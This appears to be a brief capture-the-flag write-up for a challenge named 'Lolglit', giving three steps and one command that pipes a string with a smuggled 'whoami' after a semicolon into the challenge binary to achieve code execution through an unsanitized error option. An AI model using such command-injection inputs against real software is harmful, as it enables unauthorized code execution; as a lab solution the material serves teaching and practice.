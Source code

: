 ## Lolglit

1. Get echo to error by tring to write to a nonexistent directory
2. Discover the error option
3. Use the unsanitized error option to perform RCE

```
echo "Jack > /tmp/a/a/a; whoami" | ./lolglit 
```
